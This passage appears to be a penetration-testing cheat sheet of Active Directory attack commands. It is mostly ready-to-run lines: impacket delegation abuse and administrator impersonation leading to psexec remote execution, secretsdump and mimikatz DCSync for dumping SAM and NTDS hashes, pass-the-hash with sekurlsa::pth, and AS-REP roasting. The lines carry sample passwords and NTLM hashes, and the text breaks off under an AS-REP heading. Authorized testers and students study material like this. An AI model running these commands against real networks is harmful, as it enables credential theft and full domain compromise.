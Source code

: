 ```
impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
export KRB5CCNAME=./Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
impacket-psexec administrator@backup01.corp.com -k -no-pass
```
![image](https://github.com/user-attachments/assets/dbf59a75-11c3-4517-b0e7-60f5894aba5b)
```
export KRB5CCNAME=./Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache

Change resourcedc.resourced.local machin_ip_address in /etc/hosts

impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.x.x
```
#### Dump the local password hash and domain cached hash
```
Extract hashes from windows.old's sam and system file:

impacket-secretsdump -sam SAM(local SAM file) -system SYSTEM(local SYSTEM file) local
```
#### Domain Controller Synchronization
>The DCSync permission implies having these permissions over the domain itself: DS-Replication-Get-Changes, Replicating Directory Changes All and Replicating Directory Changes In Filtered Set.

>To perform this attack, we need a user that is a member of Domain Admins, Enterprise Admins, or Administrators, because there are certain rights required to start the replication. Alternatively, we can leverage a user with these rights assigned, though we're far less likely to encounter one of these in a real penetration test.

![image](https://github.com/user-attachments/assets/6fc92c9b-f6fc-49cc-a127-e8f41ba74ce2)
```
lsadump::dcsync /user:<user>
kali: impacket-secretsdump -just-dc corp.com/controlledUser:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
impacket-secretsdump celia.almeda:7k8XHk3dMtmpnC7@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt
impacket-secretsdump celia.almeda@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt -hashes lm:nt

NTDS.DIT Secrets and Kerberos Key:
impacket-secretsdump 'htb.local'/'venom':'newP@ssword2022'@10.10.10.161
```

#### Abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket(TGT) and gain rce
https://learn.microsoft.com/en-us/sysinternals/downloads/psexec
```
sekurlsa::logonpasswords
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
net use \\dc01(logon server)
klist
.\PsExec.exe \\dc01 or \\DC01/Allison cmd.exe
```
#### AS-REP Roasting(Require Do not require Kerberos preauthentication enabled)
```
ASREPRoast with username list without pass:
impacket-GetNPUsers nara-security.com/ -dc-ip 192.168.209.30 -usersfile users.txt -format hashcat -outputfile hashes.txt

ASREPRoast with credential:
```